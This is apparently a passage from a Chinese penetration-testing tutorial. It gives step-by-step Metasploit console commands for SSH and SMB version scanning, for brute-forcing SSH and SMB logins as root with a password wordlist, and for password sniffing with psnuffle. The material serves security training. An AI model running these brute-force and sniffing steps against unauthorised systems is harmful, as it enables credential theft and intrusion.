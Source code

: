 
### 2.17.7 SSH信息收集

```shell
1.选择一个ssh模块
use auxiliary/scanner/ssh/ssh_version (查看ssh版本)
或 use auxiliary/scanner/ssh/ssh_login (进行爆破ssh时选择)

2.查看选项
show options
或者 show missing(表示查看必选项)

3.设置选项
set RHOSTS 10.102.224.206
ssh_login 时额外设置如下：
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/password.lst
(ps:也可以修改字典表或者自定义字典表)
4.开始扫描
run或者exploit
```

### 2.17.8 SMB(samba)信息收集

```shell
1.选择一个ssh模块
use auxiliary/scanner/smb/smb_version (查看版本)
或 use auxiliary/scanner/smb/smb_login (进行爆破时选择,爆破思路同ssh)

2.查看选项
show options
或者 show missing(表示查看必选项)

3.设置选项
set RHOSTS 10.102.224.206

4.开始扫描
run或者exploit
```

### 2.17.9 密码嗅探

```shell
1.选择一个ssh模块
use auxiliary/sniffer/psnuffle

2.查看选项
show options
或者 show missing(表示查看必选项)
或者 info (查看模块的详细信息)

3.设置选项


4.开始扫描
run或者exploit

5.返回上一步
back

6.查看后台运行的程序
jobs

7.kill掉某个程序
kill -id (如 kill 0)
```